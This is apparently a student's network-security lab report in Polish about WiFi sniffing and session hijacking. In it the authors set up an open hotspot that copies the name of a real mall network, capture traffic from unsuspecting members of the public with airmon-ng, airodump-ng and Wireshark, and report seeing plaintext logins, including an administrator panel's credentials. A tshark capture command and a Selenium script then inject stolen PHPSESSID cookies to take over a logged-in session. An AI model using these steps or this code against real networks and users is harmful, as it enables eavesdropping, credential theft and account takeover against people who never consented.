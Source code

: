 # Lista 3

## Zadanie 1

### Dane
Cztery tysięce przykładowych pakietów w formie tabelki można znaleźć [tutaj](./packages.md), pierwsza połowa jest przefiltrowana `tcp || http`.

### Rozwiązanie

Konfiguracja laptopa przebiegła w dwóch stopniach. Pracowałem w grupie z Barbarą Banaszak, mój laptop został skonfigurowany tak, aby udostępniał niezabezpieczoną sieć WiFi, natomiast drugi laptop monitorował ją. 

Eksperymenty były przeprowadzane na różnych sieciach, np. `KFC Free Wifi`, `WiFi McDonald`, z marnym skurkiem. Najlepsze efekty osiągneliśmy kopiująć nazwę istniejącej sieci `**WiFi Pasaż Grunwaldzki**`, aczkolwiek liczba połączonych na raz osób nie przekraczała 4. Testowaliśmy również połączenia z niezabezpiecoznymi sieciami nieudostępnionymi przez nas.

Konfiguracja laptopa polegała na zmienieniu konfiguracji karty sieciowej za pomocą programów dostępnych zarówno w repozytorium Ubuntu jak i Minta i innych. Sama zmiana ustawień polegała na wpisaniu poleceń:
* `sudo airmon-ng start`, co zmieniało tryb karty sieciowej na 'monitor;
* `sudo airodump-ng wlp3s0mon`, co pozwalało wylistować nazwy SSID sieci wraz z kanałami.

Zdjęcie poniżej pokazuje stan aplikacji po powyższej komendzie

![airodump](4.png)

Następnie należało wybrać SSID oraz kanał i nasłuchiwać na tą sieć. Krok ten poazuje zrzut ekranu:

![nasluchiwanie](5.png)

Pozyskane w ten sposób dane należało zapisać do pliku i otworzyć w programie dekodującym, np `Wireshark`. Z jego pomocą byliśmy w stanie podejrzeć strony, jakie odwiedzali użytkownicy, protokoły jakimi się posługiwali a nawet **dane dostępowe do konta** w przypadku stron niezabezpieczonych protokołem HTTP (dotyczy to niestety głównie stron Politechniki Wrocławskiej).
Zrzuty ekranu poniżej, pokazują dane, które udalo nam się pozyskać.

Po przefiltrowaniu wyników przez słowo kluczowe *POST* znaleźliśmy formularz rejestracji, z danymi slużącymi do zarejestrowania przesłanymi w plain texcie bez szyfrowania bo stronie klienta.
![1](1.png)
Dla testów sprawdziliśmy niezaszyfrowaną stronę internetową pod domentą PWr. Widać dane dostępowe do panelu administratora:
![2](2.png)
Na tym zrzucie widać prawdopodobnie rejestracje do systemu wewnetrznego publicznej sieci w Pasażu Grunwaldzkim. Połączenie jest nieszyfrowane ale credentiale są zaszyfrowane po stronie klienta co nieco utrudniało by nieautoryzowany dostęp (ale w żadnym wypadku nie uniemożliwia).
![3](3.png)

Zarówno lista witryn jak protokołów zawiera się w [tabelce](./packages.md) w podpowiednich kolumnach.

Mapa lokalizacji z którymi łączyli się użytkownicy została wygenerowana przy pomocy programu `Visual Traceroute`. Przykładowe screeny poniżej. Pozostałe zrzuty znajdują się w katalogu `./traceroute/`.

![tr1](./traceroute/focus.png)

![tr2](./traceroute/googl.png)

![tr3](./traceroute/krupski.png)

## Zadanie 2

Zadanie zrobiłem wykorzystując stronę mojego koła naukowego (którą zresztą napisałem), ponieważ stoi na serwerach Politechniki, które są nieszyfrowane. 

Do wyekstrachownaia plików cookies użyłem programu `tshark`

`sudo tshark -i wlp3s0 -w out.pcap`

Plik wyjściowy znajduje się [tutaj](./out.pcap).

Możemy znaleźć cookies potrzebne nam do podszycia się pod innego użytkownika:

```
 $sed /Cookie/q out.pcap

Cookie: PHPSESSID=7ef0ed1eba86f4dac4352078e47d59a1; PHPSESSID=u0ijuhl7phjmqh0s9mtq2cguk5
```

Po wyekstrachowaniu cookies, użyłem skryptu napisanego w Pythonie:

```
import selenium.webdriver
driver = selenium.webdriver.Chrome('./chromedriver')
driver.get("http://www.solvro.pwr.edu.pl/admin.php")
cookies = [
	{'domain': 'www.solvro.pwr.edu.pl', 'name': 'PHPSESSID', 'value': '7ef0ed1eba86f4dac4352078e47d59a1'},
	{'domain': '.pwr.edu.pl', 'name': 'PHPSESSID', 'value': 'u0ijuhl7phjmqh0s9mtq2cguk5'},
	]

for cookie in cookies:
    driver.add_cookie(cookie)

for cookie in driver.get_cookies():
    print ((cookie['name'], cookie['value']))
```

wykorzstującego `Selenium` i `chromewebdriver`. Po umieszczeniu cookies i odpaleniu skryptu, wyswietla się panel logowaniu, natomiast po przeładowaniu strony, zostajemy przeniesieni do sesji zalogowanego użytkownika, jak pokazano na zrzucie poniżej:

![session](./session.png)